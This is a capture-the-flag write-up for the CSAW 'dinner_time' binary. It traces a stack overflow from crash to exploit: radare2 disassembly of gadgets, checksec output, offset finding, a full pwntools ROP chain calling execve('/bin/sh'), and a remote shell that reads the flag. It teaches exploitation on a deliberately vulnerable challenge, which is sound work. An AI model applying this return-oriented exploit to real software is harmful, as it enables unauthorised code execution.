

# Description #
dinner\_time
150

Have this delicious meal

nc pwn.chal.csaw.io 10104

# Running the binary #

At first nothing seemed to happen ...

```
./dinner
What will you be having for dinner !! (:

pasta?
```

But if we sent a bigger input value we got a segmentation fault ...

```
./dinner
What will you be having for dinner !! (:

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```

# Analyzing the binary #

Checking the binary with radare2 quickly revealed that there were some suspicious functions called
entree\_x ...

```
[0x004005cb]> s sym.entree_1
[0x004005a6]> pd
┌ (fcn) sym.entree_1 7
│   sym.entree_1 ();
│           0x004005a6      55             push rbp
│           0x004005a7      4889e5         mov rbp, rsp
│           0x004005aa      0f05           syscall
└           0x004005ac      c3             ret
            0x004005ad      90             nop
            0x004005ae      5d             pop rbp
            0x004005af      c3             ret
┌ (fcn) sym.entree_2 6
│   sym.entree_2 ();
│           0x004005b0      55             push rbp
│           0x004005b1      4889e5         mov rbp, rsp
│           0x004005b4      5f             pop rdi
└           0x004005b5      c3             ret
            0x004005b6      90             nop
            0x004005b7      5d             pop rbp
            0x004005b8      c3             ret
┌ (fcn) sym.entree_3 6
│   sym.entree_3 ();
│           0x004005b9      55             push rbp
│           0x004005ba      4889e5         mov rbp, rsp
│           0x004005bd      5e             pop rsi
└           0x004005be      c3             ret
            0x004005bf      90             nop
            0x004005c0      5d             pop rbp
            0x004005c1      c3             ret
┌ (fcn) sym.entree_4 6
│   sym.entree_4 ();
│           0x004005c2      55             push rbp
│           0x004005c3      4889e5         mov rbp, rsp
│           0x004005c6      5a             pop rdx
└           0x004005c7      c3             ret
            0x004005c8      90             nop
            0x004005c9      5d             pop rbp
            0x004005ca      c3             ret
┌ (fcn) sym.entree_5 6
│   sym.entree_5 ();
│           0x004005cb      55             push rbp
│           0x004005cc      4889e5         mov rbp, rsp
│           0x004005cf      58             pop rax
└           0x004005d0      c3             ret
            0x004005d1      90             nop
            0x004005d2      5d             pop rbp
            0x004005d3      c3             ret
```

Inspecting the strings we noticed that we also had the string /bin/sh stored in the binary ...

```
[0x004005a6]> iz
000 0x00000698 0x00400698   7   8 (.rodata) ascii /bin/sh
001 0x000006a0 0x004006a0  42  43 (.rodata) ascii What will you be having for dinner !! (: \n
```

It seems that these functions (gadgets) will be very useful since the NX protection is enabled
for the binary, this will prevent us to run code from the stack ...

```
gef➤  checksec
[+] checksec for '/home/foobar/ctf/csawrt-18/pwning/Dinner_Time/dinner'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

We have a fairly big buffer to work with, around 1024 bytes ...

```
0x004005ed      488d45d0       lea rax, [s]
0x004005f1      be00040000     mov esi, 0x400                       ; 1024 ; int size
0x004005f6      4889c7         mov rdi, rax                         ; char *s
```

Our first writable return address is at offset 56, this happens because we only have 0x30 bytes
reserved on the current stack frame for our input buffer while been able to send 0x400 (1024)
bytes as our input ...

We can use syscall instruction to call execve("/bin/sh", ["/bin/sh"],NULL) so we need to push 
the values 0x3b (execve) to rax, 0x004005fe to rdi and 0x0 to rsi and rdx.

Lets start by setting the value 0x3b in RAX ...

We will create a padding of 56 bytes and add the value 0x004005cf, after that we will add 8 bytes
just to make space for the next return value, if we send our buffer we can verify that we were
able to land in the entree\_5 function, we also can see that our next saved ret is 0x42424242... the
value we set earlier ...

```py
buf = cyclic(56,n=8) + p64(0x004005cf) + "\x41" * 8 + "\x42" * 8
```



After sending our buffer, we can verify that the registers have the values we need ..


Our final buffer ended up like this ...

```py
buf = cyclic(56,n=8)                      # padding 
buf += p64(0x004005b4) + p64(0x00400698)  # rdi = "/bin/sh" 
buf += p64(0x004005bd) + p64(0x0)         # rsi = 0
buf += p64(0x004005c6) + p64(0x0)         # rdx = 0
buf += p64(0x004005cf) + p64(0x3b)        # rax = 0x3b
buf += p64(0x004005aa) + "\x41" * 8       # syscall
```

# Getting the flag #
```
python exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 10104: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
                                `
     . ,
      *    ,
 ` *~.|,~* '
 '  ,~*~~* `     _
  ,* / \`* '    //
   ,* ; \,O.   //
       ,(:::)=//
      (  `~(###)
       %---'`"y
        \    /
         \  /
        __)(__  hjw
       '------`                                `
     . ,
      *    ,
 ` *~.|,~* '
 '  ,~*~~* `     _
  ,* / \`* '    //
   ,* ; \,O.   //
       ,(:::)=//
      (  `~(###)
       %---'`"y
        \    /
         \  /
        __)(__  hjw
       '------`                                `
What will you be having for dinner !! (:

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaa\xb4^E@^@^@^@^@^@\x98^F@^@^@^@^@^@\xbd^E@^@^@^@^@^@^@^@^@^@^@^@^@^@E@^@^@^@^@^@^@^@^@^@^@^@^@^@E@^@^@^@^@^@;^@^@^@^@^@^@^@\xaa^E@^@^@^@^@^@AAAAAAAA
$ ls
ls
art.txt  dinner  flag.txt  run.sh
$ cat flag.txt
cat flag.txt
flag{yuUUmmm[EDITED]}
```
